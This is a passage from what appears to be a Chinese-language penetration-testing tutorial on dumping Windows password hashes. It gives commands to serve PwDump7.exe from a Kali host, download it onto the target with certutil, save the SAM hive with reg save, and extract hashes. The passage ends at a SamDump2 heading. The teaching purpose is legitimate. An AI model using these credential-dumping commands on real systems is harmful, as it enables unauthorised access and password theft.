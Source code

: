 sudo python -m SimpleHTTPServer 80

要在目标系统上下载`PwDump7.exe`二进制文件，我们可以使用`certutil`工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到当前用户的**桌面**目录。

现在我们可以使用`certutil`工具将二进制文件从 Kali 虚拟机下载到目标系统。这可以通过在目标系统上运行以下命令来完成：

certutil -urlcache -f http://<KALI-VM-IP>/PwDump7.exe PwDump7.exe

如下图所示，如果传输成功，二进制文件应该已经下载并保存为我们指定的名称：

![图 7.13 – certutil 成功传输](img/B17389_07_013.jpg)

图 7.13 – certutil 成功传输

我们还可以手动保存目标系统上 SAM 文件的注册表值，并使用 PwDdump 工具来转储哈希值。这可以通过在目标系统上运行以下命令来完成：

reg save hklm\sam c:\sam

如果操作成功，您应该会收到一条类似于下图所示的消息：

![图 7.14 – 转储 SAM](img/B17389_07_014.jpg)

图 7.14 – 转储 SAM

我们现在可以执行二进制文件，通过运行以下命令来转储哈希值：

.\PwDump7.exe -s <SAMFILE> <SYSTEM-FILE>

这将从 SAM 数据库中转储 Windows 哈希值，我们将在下一节中破解这些哈希值。

对于我们的目标系统，这种技术将无法工作。然而，它是一个有用的工具，适用于大多数 Windows 版本。

### 使用 SamDump2

我们还可以手动保存目标系统上 SAM 文件的注册表值，并使用 SamDump2 工具来转储哈希值。这可以通过运行以下命令来完成：

